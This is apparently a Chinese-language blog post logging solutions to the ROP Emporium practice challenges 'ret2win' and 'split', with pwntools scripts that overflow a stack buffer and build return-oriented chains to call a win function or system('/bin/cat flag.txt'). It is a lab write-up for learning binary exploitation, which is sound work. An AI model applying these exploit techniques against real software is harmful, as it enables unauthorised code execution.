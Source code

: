 ```yaml
---
title: ROP Emporium 练习记录
date: 2019-12-09 15:02:43
tags:
  - 栈漏洞
categories:
  - 二进制安全
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ROPEmporium/0.png
---
```


针对 ROP 学习了一下，就记录一下 64 位的做法，32 位同理。不知道为什么对这个网站特别有好感。



## ret2win

最简单的 `ret2text`，给了到 `ebp` 的偏移量，只需要找到函数 `ret2win` 的地址返回过去即可。

```python
from pwn import *

p = process('./ret2win')
elf = ELF('./ret2win')

p.recvuntil('>')

payload = 'a'*0x28 + p64(elf.symbols['ret2win'])
p.sendline(payload)

p.interactive()
```

## split

拆开了 `system` 和 `/bin/cat flag.txt`，因此找到两者地址，准备好参数后返回到 `system` 上即可。

注意在 32 位上，只需要先放 `system` 地址，随后填充 4 字节返回地址，再放 `/bin/cat flag.txt` 地址即可。而 64 位上传参需要控制 `rdi` 寄存器，因此需要 `pop rdi; ret`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./split')
elf = ELF('./split')

p.recvuntil('>')

pop_rdi_ret = 0x400883
bin_cat_flag = 0x601060

payload = flat(['a'*0x28, pop_rdi_ret, bin_cat_flag, elf.plt['system']])
p.sendline(payload)

p.interactive()
```
